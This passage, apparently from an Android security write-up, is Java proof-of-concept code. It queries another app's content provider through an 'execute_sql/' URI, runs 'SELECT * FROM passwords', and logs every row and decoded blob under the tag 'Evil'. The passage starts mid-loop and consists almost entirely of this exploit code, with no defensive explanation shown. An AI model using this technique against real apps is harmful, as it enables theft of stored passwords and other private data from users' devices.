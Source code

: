 ```java
            rowNum++;
            StringBuilder rowLog = new StringBuilder();
            rowLog.append("Row ").append(rowNum).append(": ");

            for (String col : columnNames) {
                int idx = cursor.getColumnIndex(col);
                int type = cursor.getType(idx);
                switch (type) {
                    case Cursor.FIELD_TYPE_STRING:
                        rowLog.append(col).append("=")
                                .append(cursor.getString(idx)).append("; ");
                        break;
                    case Cursor.FIELD_TYPE_INTEGER:
                        rowLog.append(col).append("=")
                                .append(cursor.getLong(idx)).append("; ");
                        break;
                    case Cursor.FIELD_TYPE_FLOAT:
                        rowLog.append(col).append("=")
                                .append(cursor.getDouble(idx)).append("; ");
                        break;
                    case Cursor.FIELD_TYPE_BLOB:
                        byte[] blob = cursor.getBlob(idx);
                        blobby = new String(blob, StandardCharsets.UTF_8);
                        rowLog.append(col)
                                .append(" (BLOB)=")
                                .append(blobby)
                                .append("; ");
                        break;
                    case Cursor.FIELD_TYPE_NULL:
                        rowLog.append(col).append("=NULL; ");
                        break;
                }
            }

            Log.d("Evil", rowLog.toString());
        }

    } finally {
        cursor.close();
    }
} else {
    Log.e("Evil", "Query returned null cursor!");
}

```
Sample code for sql execution:

```java
//Execute Sql
Uri contentUri = Uri.parse(CONTENT_URI_STRING + "execute_sql/" + "SELECT * FROM passwords");
Cursor cursor = getContentResolver().query(
        contentUri, null, null, null, null
);
//...
//Same while loop here
//...
```
